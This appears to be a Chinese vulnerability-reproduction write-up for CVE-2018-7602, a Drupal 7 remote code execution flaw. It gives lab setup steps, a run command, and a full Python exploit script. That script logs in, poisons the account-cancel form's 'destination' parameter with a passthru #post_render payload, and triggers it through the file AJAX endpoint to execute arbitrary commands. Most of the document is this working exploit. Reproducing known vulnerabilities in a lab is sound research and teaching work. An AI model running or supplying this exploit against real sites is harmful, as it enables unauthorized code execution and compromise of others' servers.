 （CVE-2018-7602）Drupal 远程代码执行漏洞
========================================

一、漏洞简介
------------

Drupal
7.x版本和8.x版本中的存在存在远程代码执行漏洞。远程攻击者可利用该中断执行任意代码。

二、漏洞影响
------------

Drupal 7.x版本和8.x

三、复现过程
------------

### 漏洞环境

执行如下命令启动drupal 7.57的环境：

    docker-compose up -d

环境启动后，访问 `http://your-ip:8081/`
将会看到drupal的安装页面，一路默认配置下一步安装。因为没有mysql环境，所以安装的时候可以选择sqlite数据库。

### 漏洞复现

参考[ianxtianxt/CVE-2018-7602](https://github.com/ianxtianxt/CVE-2018-7600)的PoC。

如下图所示，执行以下命令即可复现该漏洞。示例命令为
`id`，如图红框中显示，可以执行该命令。

    # "id"为要执行的命令 第一个drupal为用户名 第二个drupal为密码
    python3 drupa7-CVE-2018-7602.py -c "id" drupal drupal http://127.0.0.1:8081/

![](./resource/(CVE-2018-7602)Drupal远程代码执行漏洞/media/rId27.png)

### CVE-2018-7602.py

    #!/usr/bin/env python3

    import requests
    import argparse
    from bs4 import BeautifulSoup

    def get_args():
      parser = argparse.ArgumentParser( prog="drupa7-CVE-2018-7602.py",
                        formatter_class=lambda prog: argparse.HelpFormatter(prog,max_help_position=50),
                        epilog= '''
                        This script will exploit the (CVE-2018-7602) vulnerability in Drupal 7 <= 7.58
                        using an valid account and poisoning the cancel account form (user_cancel_confirm_form) 
                        with the 'destination' variable and triggering it with the upload file via ajax (/file/ajax).
                        ''')

      parser.add_argument("user", help="Username")
      parser.add_argument("password", help="Password")
      parser.add_argument("target", help="URL of target Drupal site (ex: http://target.com/)")
      parser.add_argument("-c", "--command", default="id", help="Command to execute (default = id)")
      parser.add_argument("-f", "--function", default="passthru", help="Function to use as attack vector (default = passthru)")
      parser.add_argument("-x", "--proxy", default="", help="Configure a proxy in the format http://127.0.0.1:8080/ (default = none)")
      args = parser.parse_args()
      return args

    def pwn_target(target, username, password, function, command, proxy):
      requests.packages.urllib3.disable_warnings()
      session = requests.Session()
      proxyConf = {'http': proxy, 'https': proxy}
      try:
        print('[*] Creating a session using the provided credential...')
        get_params = {'q':'user/login'}
        post_params = {'form_id':'user_login', 'name': username, 'pass' : password, 'op':'Log in'}
        print('[*] Finding User ID...')
        session.post(target, params=get_params, data=post_params, verify=False, proxies=proxyConf)
        get_params = {'q':'user'}
        r = session.get(target, params=get_params, verify=False, proxies=proxyConf)
        soup = BeautifulSoup(r.text, "html.parser")
        user_id = soup.find('meta', {'property': 'foaf:name'}).get('about')
        if ("?q=" in user_id):
          user_id = user_id.split("=")[1]
        if(user_id):
          print('[*] User ID found: ' + user_id)
        print('[*] Poisoning a form using \'destination\' and including it in cache.')
        get_params = {'q': user_id + '/cancel'}
        r = session.get(target, params=get_params, verify=False, proxies=proxyConf)
        soup = BeautifulSoup(r.text, "html.parser")
        form = soup.find('form', {'id': 'user-cancel-confirm-form'})
        form_token = form.find('input', {'name': 'form_token'}).get('value')
        get_params = {'q': user_id + '/cancel', 'destination' : user_id +'/cancel?q[%23post_render][]=' + function + '&q[%23type]=markup&q[%23markup]=' + command }
        post_params = {'form_id':'user_cancel_confirm_form','form_token': form_token, '_triggering_element_name':'form_id', 'op':'Cancel account'}
        r = session.post(target, params=get_params, data=post_params, verify=False, proxies=proxyConf)
        soup = BeautifulSoup(r.text, "html.parser")
        form = soup.find('form', {'id': 'user-cancel-confirm-form'})
        form_build_id = form.find('input', {'name': 'form_build_id'}).get('value')
        if form_build_id:
            print('[*] Poisoned form ID: ' + form_build_id)
            print('[*] Triggering exploit to execute: ' + command)
            get_params = {'q':'file/ajax/actions/cancel/#options/path/' + form_build_id}
            post_params = {'form_build_id':form_build_id}
            r = session.post(target, params=get_params, data=post_params, verify=False, proxies=proxyConf)
            parsed_result = r.text.split('[{"command":"settings"')[0]
            print(parsed_result)
      except:
        print("ERROR: Something went wrong.")
        raise

    def main():
      print ()
      print ('===================================================================================')
      print ('|   DRUPAL 7 <= 7.58 REMOTE CODE EXECUTION (SA-CORE-2018-004 / CVE-2018-7602)     |')
      print ('|                                   by pimps                                      |')
      print ('===================================================================================\n')

      args = get_args() # get the cl args
      pwn_target(args.target.strip(),args.user.strip(),args.password.strip(), args.function.strip(), args.command.strip(), args.proxy.strip())


    if __name__ == '__main__':
      main()

参考链接
--------

> https://vulhub.org/\#/environments/drupal/CVE-2018-7602/
